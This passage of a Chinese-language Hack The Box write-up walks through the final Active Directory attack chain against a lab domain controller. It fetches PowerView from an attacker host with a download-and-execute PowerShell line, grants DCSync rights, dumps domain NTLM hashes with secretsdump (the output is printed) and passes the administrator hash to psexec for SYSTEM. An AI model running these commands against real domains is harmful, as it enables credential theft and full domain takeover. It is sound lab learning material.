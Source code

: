在其中的Recon模块中有个Powerview.ps1模块，这个模块可以协助我们进行权限赋予
首先在自己的机子上开python服务准备这个文件，然后再winrm中导入
`iex(new-Object net.webclient).downloadstring('[http://10.10.16.3:8000/PowerView.ps1')](http://10.10.16.3:8000/PowerView.ps1'))`
导入之后运行`menu`可以发现模块增加
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1680264858155-38f6282f-93c5-487a-9a74-31424d165ae3.png#averageHue=%23303026&clientId=u7e313bdf-7b57-4&from=paste&height=438&id=udc4d8b14&name=image.png&originHeight=547&originWidth=1145&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=849010&status=done&style=none&taskId=u6a992c0f-8eb2-4c17-b19e-b6d300be3c4&title=&width=916)
首先定义2个变量
`$pass=convertto-securestring 'abc123!' -asplain -force`
`$cred=new-object system.management.automation.pscredential('htb\boogipop',$pass)`
其中Add-ObjectACL模块可以添加DCSync权限`Add-ObjectACL -PrincipalIdentity boogipop -Credential $cred -Rights DCSync`
## （4）DCSync攻击导出管理员hash
[https://shu1l.github.io/2020/08/05/dcsync-yu-dcshadow-gong-ji-xue-xi/#DCSync%E6%94%BB%E5%87%BB%E5%88%A9%E7%94%A8](https://shu1l.github.io/2020/08/05/dcsync-yu-dcshadow-gong-ji-xue-xi/#DCSync%E6%94%BB%E5%87%BB%E5%88%A9%E7%94%A8)
> DCSync攻击原理
> DCSync 的原理非常清晰，利用域控制器之间的数据同步复制。
> 
> 发现网络中的目标域控制器;
> 通过 DRS 服务的 GetNCChanges 接口发起数据同步请求，Directory Replication Service (DRS) Remote Protocol
> Samba wiki 关于 GetNCChanges 的描述包括:
>  当一个 DC (客户端 DC)想从其他 DC (服务端 DC)获取数据时，客户端 DC 会向服务端 DC 发起一个 GetNCChanges 请求。回应的数据包括需要同步的数据。
> 如果需要同步的数据比较多，则会重复上述过程。毕竟每次回应的数据有限。

主打一个数据同步
一个用户想发起 DCSync 攻击，必须获得以下任一用户的权限：

- Administrators组内的用户
- Domain Admins组内的用户
- Enterprise Admins组内的用户
- 域控制器的计算机帐户

上述过程中我们直接创建了一个有Sync权限的用户，因此接下来该做的解释导出管理员hash，这里还是使用impacket包下的一个模块`secretsdump`
`secretsdump.py  htb/boogipop@10.10.10.161`
之后可以获取所域中所有用户的hash，包括admin的
```
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
可以发现admin的hash
## （5）PTH票据传递获取Root
最后通过PTH攻击即可获取root权限，这里使用的也是该工具包中的模块`psexec`
`psexec.py administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6`
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1680265239008-a7e4ecae-0c65-4eb3-8e5c-0df51a4bea9b.png#averageHue=%23343328&clientId=u7e313bdf-7b57-4&from=paste&height=289&id=u35f926c7&name=image.png&originHeight=361&originWidth=1205&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=585428&status=done&style=none&taskId=uf9b6c975-d0eb-406c-ad43-b65f7e706d8&title=&width=964)
获取system权限。
最后也是在desktop中获取root.txt
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1680265274467-22fa66dd-c8d9-476d-b670-cc3999e5ad08.png#averageHue=%23313128&clientId=u7e313bdf-7b57-4&from=paste&height=56&id=ub065a31e&name=image.png&originHeight=70&originWidth=749&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=78940&status=done&style=none&taskId=u7a48021c-72a8-4022-92da-b1edb46889e&title=&width=599.2)
拿下~


